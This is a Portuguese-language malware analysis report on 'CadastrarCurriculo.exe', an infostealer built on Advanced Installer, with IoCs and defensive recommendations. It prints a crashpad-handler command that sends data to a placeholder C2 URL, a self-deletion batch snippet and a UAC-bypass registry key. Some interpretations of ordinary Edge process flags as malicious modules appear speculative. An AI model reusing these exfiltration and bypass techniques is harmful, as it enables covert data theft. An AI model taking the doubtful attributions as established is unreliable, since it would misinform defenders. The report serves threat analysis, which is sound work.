










# Análise Técnica de Malware: CadastrarCurriculo.exe (Trojan/ Advanced Installer / Banking Stealer & Spyware)

**Data da Análise:** 20/12/2025 <br>
**SHA256:** 21e06c9ee37d2da327b5d2c8bea6d68d9674ab8b2243005ffb3e8ef7b8965675 <br>
**Classificação:** Downloader / InfoStealer / Spyware <br>
**Ferramentas Utilizadas:** Strings, DetectItEasy, Ghidra, Wireshark, ANY.RUN, Cutter.<br>
**Anyrun Report:** [report](./anyrun_report.pdf)<br>
**Anyrun analysis:** [analysis](https://app.any.run/tasks/c8e6e628-1b6b-4560-acdc-4a26783dd777)

## 1. Sumário Executivo

A amostra analisada, disfarçada sob o nome `CadastrarCurriculo.exe`, trata-se de um malware sofisticado que utiliza o **Advanced Installer** como *wrapper* para evasão inicial. O artefato emprega técnicas avançadas de *Living off the Land (LotL)* para burlar controles de segurança como o **AppLocker**, culminando em uma elevação de privilégio via **Bypass de UAC** (slui.exe).

Em seu estágio de pós-exploração, o malware exibe capacidades de espionagem complexas, utilizando-se do processo legítimo `msedge.exe` e abusando de serviços internos do Chromium (Mojo IPC) para captura de tela, espionagem, roubo de carteiras digitais (Wallets) e mineração de dados sensíveis utilizando Inteligência Artificial local (ONNX). Além de expandir suas capacidades através do drop de mais um binário, cuja análise estará fora deste escopo.

---

## 2. Análise Estática e Unpacking

O binário inicial apresenta-se como um executável PE32.


### 2.1 Strings

A análise via strings utilizando de chaves de pesquisa comuns para malwares já continha um comportamento suspeito:


A utilização do binário attrib.exe -r pode indicar uma tentativa de auto-remoção.

Olhando para as strings no decompiler, fica mais claro o objetivo do malware.



Este comando utiliza argumentos para silenciar a execucação do powershell `-NonInteractive -NoLogo` e modifica a política de execução com `-ExecutionPolicy Unrestricted` e criando um novo objeto `new-object System.Management.Automation.Host.Size(1024,50)` preparando o terreno para execuções posteriores e escalada de privilégio.

Também é possível encontrar a seguinte string:



Apontando uma execução forçada do **PowerShell1.0** que pode indicar uma questão de compatibilidade de shell code e exploração de algumas vulnerabilidades conhecidas.

### 2.2. Estrutura do Instalador
A estrutura interna revela o uso do motor do **Advanced Installer**. Foi identificado o recurso de assinatura `sdPC` (Serialized Data Patch/Configuration), que contém os scripts de instalação e configurações ofuscadas. O malware utiliza uma DLL proprietária modificada ou sequestrada, identificada como `InstallerAnalytics.dll` em queries SQL internas do pacote MSI, para executar código arbitrário durante a suposta "instalação".


Durante o processo, o malware dropa vários arquivos diferentes nos formatos:
`.msi`
`.tmp`
`.ps1`
`.psm1`
`.log`



Com vários objetivos diferentes. Dentre eles verificar pela presença do APPlocker para garantir que sua execução não está sendo restringida.

A edição de política de execução e registros do PowerShell irá terminar de garantir o acesso para a fase de post-exploitation.

---

## 3. Vetor de Infecção e Evasão (Dropper)

A execução inicial não solta o payload final diretamente. Ela prepara o ambiente abusando de binários confiáveis do Windows para garantir a persistência e a execução silenciosa.

### 3.1. Bypass de AppLocker e Cadeia de Confiança
O malware explora a confiança transitiva do sistema operacional:
1.  O `CadastrarCurriculo.exe` (MSI) é executado via `msiexec.exe`.
2.  Como o `msiexec` é um binário assinado e confiável, ele tem permissão para executar scripts e binários temporários na pasta `C:\Windows\Installer`.
3.  Arquivos nos formatos citados no ponto 2.2 atuam aqui para fazer o bypass e a checagem pelo AppLocker.



4. O processo continua com a execução de comandos powershell via `msiexec.exe` e uma exfiltração de dados iniciais da máquina da vítima através do binário whoami.



5. O processo acima se repetirá por mais 5 ciclos até garantir que poderá executar a próxima etapa.
6. Um executável `MSI76DF.tmp` (seu nome pode variar segundo a execução) é acionado e executa contato com o servidor de C2.



## 4. Pós-Exploração: Abuso de Componentes do Navegador (Edge)

A característica mais sofisticada desta ameaça é a transição de um instalador malicioso para um *Browser-Based Spyware*. O malware não injeta apenas DLLs; ele instancia serviços legítimos do Microsoft Edge via linha de comando para realizar roubo de dados, evitando a detecção comportamental padrão.



### 4.1. Mojo IPC e Quebra de Sandbox
O malware utiliza o mecanismo de comunicação interprocessos (IPC) **Mojo** do Chromium para comandar subsistemas do navegador. Observou-se a execução de processos filhos do `msedge.exe` com a flag crítica `--service-sandbox-type=none`, desativando as proteções de isolamento e permitindo acesso direto à memória e ao disco.

### 4.2. Módulos de Roubo Identificados
Através da análise de *Process Command Lines* e *Memory Strings*, foram identificados três vetores de ataque distintos operando sob o processo do Edge:

1.  **Exfiltração Financeira (Wallet):**
    * *Serviço:* `edge_xpay_wallet.mojom.EdgeXPayWalletService`
    * *Objetivo:* Acesso direto ao banco de dados `Web Data` descriptografado, visando extrair cartões de crédito salvos, endereços de cobrança e tokens de pagamento.
2.  **Spyware e Vigilância (Video Capture):**
    * *Serviço:* `video_capture.mojom.VideoCaptureService`
    * *Comportamento:* O malware ativa a captura de vídeo/tela em background. O tráfego de saída correlacionado sugere o envio de *frames* ou gravação contínua.
3.  **Mineração de Dados via IA (ONNX):**
    * *Serviço:* `entity_extraction_service.mojom.Extractor`
    * *Flag Crítica:* `--onnx-enabled-for-ee`
    * *Análise:* O malware utiliza modelos de **Redes Neurais (ONNX)** locais para processar o texto exibido na tela da vítima (OCR semântico). Isso permite filtrar automaticamente informações sensíveis (como seeds de criptomoedas, CPFs ou chaves de API) antes da exfiltração, reduzindo o ruído de rede.

### 4.3. Exfiltração via Crashpad
Para evadir firewalls de rede, os dados roubados não são enviados por um processo desconhecido. O malware invoca o `crashpad-handler` (manipulador de erros legítimo do Edge) passando a URL do C2 como argumento:
`--type=crashpad-handler --database=... --url=https://[C2_URL]/og.php`
Este processo não levanta suspeitas de exfiltração de dados por parte de firewalls que normalmente ignoram esse tipo de tráfego.

--- 
## 5. Web Injects e Targeting (Banker Module)

A análise de memória dos scripts desofuscados revelou uma lista de alvos (*Target List*) em formato JSON, confirmando as capacidades de *Banker/Infostealer* direcionado.



* **Técnica de Evasão:** O malware aplica políticas específicas ao acessar os domínios listados. Isso força o User-Agent do Edge a se mascarar como Google Chrome estável para evitar detecção por scripts de *fingerprinting* do lado do servidor ou quebra de layout durante a injeção.
* **Alvos Identificados:** A lista abrange setores diversos, indicando uma campanha ampla ou oportunista:
    * **Governo e Educação:** `gov.pl` (Polônia), `edunet.net`, `unnes.ac.id`, `agriedu.net`.
    * **Corporativo e RH:** `midea.com`, `longfor.com`, `conveyiq.com`.
    * **Serviços:** `byjusfutureschool.com`, `givebacks.com`.

A presença de camadas adicionais de JavaScript ofuscado sugere o uso de *Web Injects* para capturar credenciais em tempo real (*Form Grabbing*) antes da submissão HTTPS.

---

## 6. Infraestrutura de Comando e Controle (C2)

A comunicação com a infraestrutura do atacante ocorre via HTTPS, utilizando técnicas de *Beaconing* e exfiltração camuflada.

* **Endpoint Principal:** `hxxps[://]vagasflix[.]com/og[.]php`
* **Identificação de Vítima:** Parâmetro de consulta `?u=/cl/i/[ID_GERADO]`.
* **Criptografia de Payload:** O corpo das requisições POST contém dados binários com alta entropia. A análise aponta para uma rotina de cifragem customizada (provavelmente XOR com chave derivada do recurso `sdPC` ou RC4), dificultando a inspeção de tráfego por NIDS/WAFs convencionais.
* **Mecanismo de Entrega:** O C2 responde aos *beacons* com comandos de download para módulos adicionais, observados na entrega dos binários `BraveCrashHandler.exe` e `Google CrashHandler.exe` (que compartilham o mesmo hash malicioso).

**Acontecem consultas a outros domínios que servem como suporte para o c2** - Mais informações no report do anyrun.

---

## 7. Persistência e Scripting

Após a elevação, o malware utiliza o PowerShell para orquestrar o download dos módulos finais e manter a comunicação com o C2.

* **Ofuscação:** Scripts `.ps1` fortemente ofuscados foram detectados.
* **Downloads Adicionais:** O malware baixa binários disfarçados de componentes de navegadores:
    * `BraveCrashHandler.exe`
    * `Google CrashHandler.exe`
    * *Nota:* A análise de hash confirmou que ambos são o mesmo binário malicioso renomeado.
* **Auto-deleção:** Strings encontradas na memória indicam uma rotina de limpeza para apagar rastros do instalador original:
    ```batch
    %SystemRoot%\System32\attrib.exe -r "%s"
    del "%s" | cls
    ```

### 7.1. Binário post-exploitation

A análise no Cutter revelou um *stub* de proteção agressivo antes do *Original Entry Point (OEP)*:
* **Anti-VM/Anti-Disassembly:** Uso de instruções `out`/`in` para detecção de hypervisor, seguidas de `scasd` e sequências de bytes desalinhados (*opaque predicates*) e instruções `invalid` para quebrar o fluxo de análise estática.
* **Algoritmo de Unpacking:** O payload real é reconstruído na memória através de um loop massivo de operações `ADD` e `XOR` sobre blocos de *raw data*. O código "limpo" só reside na memória RAM durante a execução, dificultando a extração estática.
A alta obfuscação, o formato, e as técnicas de anti debug/anti vm podem indicar o funcionamento atrelado a um processo em execução.
É necessário um trabalho específico sobre esse binário para revelar suas capacidades. Pela ausência dessas informações, pode ser que as capacidades deste malware sejam ainda mais refinadas e de alto impacto.

---

## 8. Indicadores de Comprometimento (IoCs)

### 8.1. Hashes (SHA256)
| Arquivo | Hash | Descrição |
| :--- | :--- | :--- |
| **CadastrarCurriculo.exe** | `21e06c9ee37d2da327b5d2c8bea6d68d9674ab8b2243005ffb3e8ef7b8965675` | Dropper Principal (Advanced Installer) |
| **MSI76DF.tmp** | *Varia por execução* | Gatilho inicial na pasta Installer |

### 8.2. Domínios e URLs
* `hxxps[://]vagasflix[.]com/og[.]php`

**Existem muitas outras, consulte o report do anyrun, várias estão como whitelisted no momento da produção deste report.**

### 8.3. Indicadores Comportamentais (Host-Based)
* **Execução de Processos:**
    * `slui.exe` invocado com o argumento `-Embedding` (Bypass de UAC).
    * `msedge.exe` executado com flags de violação de sandbox:
        * `--service-sandbox-type=none`
        * `--utility-sub-type=video_capture.mojom.VideoCaptureService`
        * `--utility-sub-type=edge_xpay_wallet.mojom.EdgeXPayWalletService`
        * `--onnx-enabled-for-ee` (Ativação de IA local)
* **Sistema de Arquivos:**
    * Criação de arquivos `.tmp` suspeitos em `C:\Windows\Installer`.
    * Scripts `.ps1` ocultos ou codificados na pasta `%TEMP%`.
* **Registro:**
    * Modificações em `HKCU\Software\Classes\Launcher.SystemSettings\Shell\Open\Command`.

---

## 9. Conclusão

A amostra `CadastrarCurriculo.exe` representa uma evolução significativa nas táticas de malwares do tipo *Stealer*. Ao abandonar a injeção de código convencional em favor do abuso de funcionalidades nativas do navegador (**Mojo IPC, Crashpad e Modelos ONNX**), o atacante demonstra alto nível de sofisticação técnica focada em **evasão de EDR** e **exfiltração silenciosa**.

O vetor de infecção inicial, que combina **Advanced Installer** com **Bypass de AppLocker e UAC**, torna esta ameaça particularmente perigosa para ambientes corporativos que dependem de listas de permissão (Allowlisting) baseadas em assinaturas de instaladores MSI.

**Recomendação:** Bloqueio imediato dos IoCs de rede listados e revisão das políticas de execução de binários MSI assinados, além do monitoramento de linhas de comando do processo `msedge.exe` que contenham desativação de sandbox.
